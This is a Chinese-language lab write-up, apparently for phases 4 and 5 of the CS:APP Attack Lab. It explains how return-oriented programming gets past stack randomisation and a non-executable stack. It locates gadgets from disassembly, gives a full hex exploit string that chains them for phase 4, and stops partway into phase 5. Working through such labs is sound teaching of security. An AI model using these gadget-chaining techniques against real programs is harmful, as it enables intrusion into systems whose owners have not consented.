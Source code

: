 四、五题是 Return-Oriented Programming ，这两题更难，因为引入了栈随机化和限制了可执行代码区域：

> - It uses randomization so that the stack positions differ from one run to another. This makes it impos-
sible to determine where your injected code will be located.
> - It  marks  the  section  of  memory  holding  the  stack  as  nonexecutable,  so  even  if  you  could  set  the program counter to the start of your injected code, the program would fail with a segmentation fault.     

栈随机化使得栈上的地址不确定，无法直接跳转到栈上的指定地址；可执行代码区域是限制的，使得注入栈上的代码无法执行。    
所以这里要引入新的攻击方式，就是 ROP 攻击，ROP 的具体讲解可以参考指导文档，ROP 的攻击思路就是，寻找、利用函数自带的一些 gadgets ，使之构成一个攻击链，这样利用程序自身的函数片段，就能绕过新的安全限制。 

## 第四题

这题要求在新的保护下重复第二题的结果，将 `cookie` 值传入 `%rdi` ，这里和第二题一样使得栈溢出，然后将返回地址设为 `gadgets` 攻击链的起始地址。攻击链可以这样构造，观察代码发现：

```
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq
```

查阅文档， `58 90` 即是 `popq %rax` ，`90` 是 `nop` ，可以直接忽视，这段代码地址是 `0x4019ab` ，它将栈上的值存入了寄存器，接着发现：

```
00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3
```

查阅文档， `48 89 c7` 就是 `movq %rax,%rdi` ，就将栈上的值存入了 `%rdi` ，因此将 `cookie` 值存入栈中，就可以传值，这段代码地址是 `0x4019a2` 。    
因此输入字符串先是一段填充的 40 字节，然后是跳转地址，设为 pop 的地址 `0x4019ab` ，接着存入 `cookie` 值（就是将要 pop 的那个值，注意应存入 64 位值），然后是 mov 的地址 `0x4019a2` ，最后跳转到 `touch2` ，这样一个完整的 ROP 攻击链就形成了，一个可行的答案就是：

```
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

## 第五题

与上题类似，要求重复第三题的结果，要求将 `cookie` 字符串的地址存入 `%rdx` ，考虑到栈随机化，无法直接得到地址。注意到这里 `48 89 e0 90` 是 `movq %rsp,%rax` ，将栈顶的地址存在了 `%rax` ，可以利用这一点来传地址。

```
0000000000401aab <setval_350>:
  401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:       c3                      retq
```
